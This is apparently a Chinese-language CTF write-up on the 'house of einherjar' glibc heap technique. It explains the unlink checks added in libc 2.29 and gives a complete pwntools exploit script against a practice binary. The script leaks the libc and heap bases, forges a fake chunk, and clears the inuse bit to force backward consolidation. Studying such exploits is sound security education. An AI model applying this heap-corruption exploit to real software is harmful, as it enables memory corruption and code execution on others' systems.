

# house of einherjar

house of einherjar 主要是利用释放不在fastbin 大小范围内的chunk是会尝试合并前面已经释放chunk的机制，通过伪造chunk头部实现几乎任意地址内存的申请



这里使用的方法也是和包版本的方法也是一样的

这里主要是要注意的一点就是unlink对堆块进行了一个新的检查

这里他新加的检查如下

```
在2.29的libc中他的函数中加入了一个特性就是，fake chunk的fd==bk
并且在使用的时候chunk2的inus位要为0是的前面是空闲的一个堆块识别
并且fake_prev_size2==chunk2-fake_chunk
```

因此我们的exp

```python
from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])


def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x208)
add_chunk(1, 0x208)
add_chunk(2, 0xf8)
add_chunk(3, 0x28)

delete_chunk(0)
delete_chunk(2)
# gdb.attach(p)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x39bb78
info("libc base: " + hex(libc.address))
edit_chunk(0, 'a' * 8)
show_chunk(0)
p.recv()
heap_base = u64(p.recv(14)[-6:].ljust(8, b'\x00')) - 0x420
info("heap base: " + hex(heap_base))#这里不是用chunk2的原因就是因为chunk2的数据会进行要给\x00的一个截断因此不行

edit_chunk(0, p64(libc.address+0x39bb78))#这里是吧chunk0的数据冲新改回去

add_chunk(0,0x208)
add_chunk(2,0xf8)

fake_chunk = b''
fake_chunk += p64(0)
fake_chunk += p64(0x411)#这个sie的大小就是chunk0和chunk1的和并且chunk0的头部的大小是不包含在这个里面的因此是0x410,由于要保证存活
fake_chunk += p64(heap_base+0x10)
fake_chunk += p64(heap_base+0x10)

edit_chunk(0,fake_chunk)
edit_chunk(1,b'a'*0x200 + p64(0x410)+p8(0))#这里是伪造unlink

# gdb.attach(p,'b __int_free\nc')
# pause()

delete_chunk(2)

gdb.attach(p)


p.interactive()
```

